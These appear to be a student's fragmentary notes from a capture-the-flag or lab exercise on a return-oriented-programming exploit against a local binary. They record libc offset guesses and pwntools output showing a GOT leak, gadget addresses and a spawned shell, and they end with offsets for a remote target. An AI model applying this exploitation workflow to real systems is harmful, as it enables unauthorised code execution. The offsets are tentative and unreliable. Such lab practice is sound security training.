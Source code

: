 

Real LibC base -
```
0x00007fa6e4c74000
```
I think?

so that would make the offset:
```
85B0
```


0x7f1162a51aa0


0x7f1162a5a050
0x7f11629e5000



IT's WORKING
```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ python3 RPP_Pwn_3.py
[+] Starting local process './rop': pid 177572
/home/kali/Desktop/6-Week/ROP-Pop-Pop/RPP_Pwn_3.py:260: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("tools..")
b'\n'
/home/kali/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is not text; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'info')
[*] P>Î\x7f
[*] gots leak - 0x7f94ce3e9050
[*] libcBase - 0x7f94ce374000
/home/kali/Desktop/6-Week/ROP-Pop-Pop/RPP_Pwn_3.py:282: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("tools..")
[*] popRDX - 0x7f94ce4716bd
[*] popRAX - 0x7f94ce3b3587
[*] syscall - 0x7f94ce39a468
[*] Switching to interactive mode

$ whoami
kali
$ pwd
/home/kali/Desktop/6-Week/ROP-Pop-Pop
$  zsh: suspended (signal)  python3 RPP_Pwn_3.py    
```


For remote, must use other offsets
Gets == `0x00183970`
So I think the offset is `0x00083970`

Binsh is at:
```
0x002b45bd
```
so the offset is
```
0x001b45bd
```
